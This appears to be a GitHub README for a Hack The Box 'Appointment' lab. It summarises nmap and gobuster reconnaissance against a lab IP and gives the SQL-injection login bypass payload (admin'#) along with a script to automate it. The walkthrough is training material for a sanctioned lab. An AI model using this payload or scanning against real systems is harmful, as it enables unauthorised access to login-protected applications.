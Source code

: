 # HTB “Appointment” SQL‑Injection Exploit

Exploit a classic SQL‑Injection on Hack The Box’s **Appointment** web app to bypass authentication and retrieve the flag.

---

## 🚀 Quick Start

```
git clone https://github.com/keyfive5/obsidiansignal-htb-appointment.git
cd obsidiansignal-htb-appointment
bash scripts/login-sqli.sh 10.129.99.212
```
📝 Prerequisites
Kali Linux (or any distro with nmap, gobuster, curl)

Active HTB VPN connection

📂 Repository Structure

.
├── README.md
├── writeup/
│   └── lab-writeup.md
├── scripts/
│   └── login-sqli.sh
├── screenshots/
│   ├── nmap.png
│   ├── gobuster.png
│   └── bypass-login.png
└── articles/
    └── appointment-devto.md

🔍 Lab Walkthrough
Nmap Scan
`nmap -sC -sV 10.129.99.212 -o screenshots/nmap.png`

Directory Brute‑Force (optional)

`gobuster dir -u http://10.129.99.212 -w /usr/share/wordlists/dirb/common.txt -o screenshots/gobuster.png`

SQL‑Injection Bypass
- Username: admin'#
- Password: anything
- See login bypass screenshot: screenshots/bypass-login.png

4. Automation

`bash scripts/login-sqli.sh 10.129.99.212`

📄 Write‑Ups & Articles
- Lab Write‑Up: writeup/lab-writeup.md
- Dev.to Tutorial: articles/appointment-devto.md

🤝 Connect
- GitHub: keyfive5
- Dev.to: https://dev.to/keyfive5
- Twitter: https://twitter.com/obsidiansignal0
- LinkedIn: https://linkedin.com/in/mz-cs

“Looking for paid pentesting or cloud‑infra security gigs? Let’s connect!”
